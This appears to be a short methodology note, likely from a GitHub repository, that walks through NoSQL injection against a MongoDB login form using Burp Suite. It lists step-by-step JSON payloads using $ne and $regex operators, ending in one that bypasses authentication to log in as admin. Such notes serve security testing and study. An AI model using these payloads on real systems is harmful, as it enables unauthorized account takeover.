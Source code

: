 ## NoSQL Injection (MongoDB Login) – Methodology<br>
Read and modify the JSON input being sent to the server in Burp Suite Repeater.<br>
1. Test for Injection Support<br>
Set:<br>
`"username": {"$ne":""}`<br>
If login succeeds → injection is possible<br>

2. Test Regex Matching<br>
Set:<br>
`"username": {"$regex":"^wien.*"}`<br>
If login succeeds → regex is supported<br>

3. Trigger Multi-User Match<br>
Set both:<br>
`"username": {"$ne":""}, "password": {"$ne":""}`<br>
If error → multiple users matched (expected one)<br>

4. Target Admin or any privileged User<br>
Set:<br>
`"username": {"$regex":"^admin.*"}, "password": {"$ne":""}`<br>
Logs in as admin<br>
